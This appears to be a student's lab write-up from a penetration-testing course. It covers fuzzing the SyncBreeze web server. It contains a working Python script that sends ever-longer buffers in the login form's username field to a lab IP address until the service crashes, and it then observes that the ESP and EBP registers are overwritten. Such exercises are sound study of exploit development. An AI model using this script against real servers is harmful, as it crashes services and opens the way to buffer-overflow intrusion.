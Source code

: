 ### 11.1.1.2 Exercises
#### 1. Build the fuzzer and replicate the SyncBreeze crash.

```python
#!/usr/bin/python
import socket
import time
import sys
size = 100
while(size < 2000):
    try:
        print "\nSending evil buffer with %s bytes" % size
        inputBuffer = "A" * size
        content = "username=" + inputBuffer + "&password=A"
        buffer = "POST /login HTTP/1.1\r\n"
        buffer += "Host: 192.168.216.10\r\n"
        buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
        buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
        buffer += "Accept-Language: en-US,en;q=0.5\r\n"
        buffer += "Referer: http://192.168.216.10/login\r\n"
        buffer += "Connection: close\r\n"
        buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
        buffer += "Content-Length: "+str(len(content))+"\r\n"
        buffer += "\r\n"
        buffer += content
        s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.216.10", 80))
        s.send(buffer)
        s.close()
        size += 100
        time.sleep(4)
    except:
        print "\nCould not connect!"
        sys.exit()
```

![image-20200703193000440](.11.1.1.2.assets/image-20200703193000440.png)

![image-20200703193012321](.11.1.1.2.assets/image-20200703193012321.png)

#### 2. Inspect the content of other registers and stack memory. Does anything seem to be directly influenced by the fuzzing input?

The ESP & EBP registers both appear to have been overwitten by strings.

![image-20200703194018546](.11.1.1.2.assets/image-20200703194018546.png)